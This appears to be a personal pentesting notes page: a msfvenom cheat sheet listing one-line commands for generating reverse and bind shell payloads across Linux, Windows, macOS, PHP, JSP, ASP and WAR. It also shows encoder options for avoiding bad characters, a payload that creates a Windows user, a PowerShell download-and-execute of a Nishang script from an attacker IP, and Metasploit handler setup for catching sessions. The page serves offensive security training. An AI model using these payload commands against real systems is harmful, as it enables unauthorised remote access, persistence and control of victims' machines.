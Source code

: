 ```yaml
---
title : "Msfvenom"
# pre : ' '
description : " Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit."
date : 2021-02-08T09:52:22+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Msfvenom

Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.

## Flags

MSFVenom Payload Generation One-Liner | Description
| :------------- | :----------- |
msfvenom -l payloads | List available payloads
msfvenom -p PAYLOAD –list-options | List payload options
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP | Payload Encoding
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux reverse shell x64 single stage
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter reverse shell
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36” -f exe > shell.exe | Windows Meterpreter http reverse shell
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter bind shell
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Multi Stage
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Single Stage
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe | Windows add user
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho | Mac Reverse Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho | Mac Bind shell
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py | Python Shell
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh | BASH Shell
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl | PERL Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp | ASP Meterpreter shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp | JSP Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war | WAR Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php | pbcopy && echo '?php '
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php | Php Reverse Shell
msfvenom -a x86 –platform Windows -p windows/exec CMD="powershell \“IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"” -f python | Windows Exec Nishang Powershell in python
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b “\x04\xA0” | Bad characters shikata_ga_nai
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b “\x04\xA0” | Bad characters fnstenv_mov

## Examples

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

```plain
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

## URL List

* [Thor-sec.com - msfvenom cheat sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)
